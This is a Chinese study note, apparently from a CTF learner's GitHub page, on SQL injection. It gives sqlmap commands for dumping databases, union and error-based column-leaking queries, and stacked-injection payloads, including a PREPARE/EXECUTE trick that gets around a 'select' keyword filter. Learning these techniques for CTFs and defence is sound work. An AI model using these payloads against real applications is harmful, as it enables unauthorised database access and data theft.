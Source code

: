# SQL注入学习

### SQLmap用法

探测注入点：````sqlmap -u [可能出现注入点的链接地址] --forms````

获取数据库名：```` sqlmap -u [url] -dbs````

获取数据表名：````sqlmap -u [url] -D [数据库名] --tables````

获取字段名：````sqlmap -u [url] -D [数据库名] -T [数据表名] --columns````

获取数据库内内容： ````sqlmap -u [url] -D [数据库名] -T [数据表名] -C '字段1,字段2,字段3.....' --dump````

### 无法获取列名(报错注入获取列名)

利用union搭配别名子查询，在不知道字段的时候进行注入(即通过字段的顺序指定):

````sql
.... union select (select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from test)e limit 1 offset 3)f,(select 1)g,(select 1)h,(select 1)i;
````

通过报错注入获取列名:

````sql
.... and (select * from (select * from test as a join test as b using(已知列名1,已知列名2......)) as c);
````

原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错。

### 堆叠注入(适用于过滤了select等且可以执行多语句的题目)

**过滤selecet获取数据库名(报错注入)**  `1' and extractvalue(1,concat('~',database()))#`

**堆叠注入获取表名**  `-1';use supersqli;show tables;#`  中间使用数据库名可以省略

**堆叠注入获取字段** 

````sql
-1';use supersqli;show columns from `1919810931114514`;#
````

中间使用数据库名可以省略

**堆叠注入执行任意语句**

````sql
-1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
````

使用sql的预处理将关键词拆开组合，绕过过滤

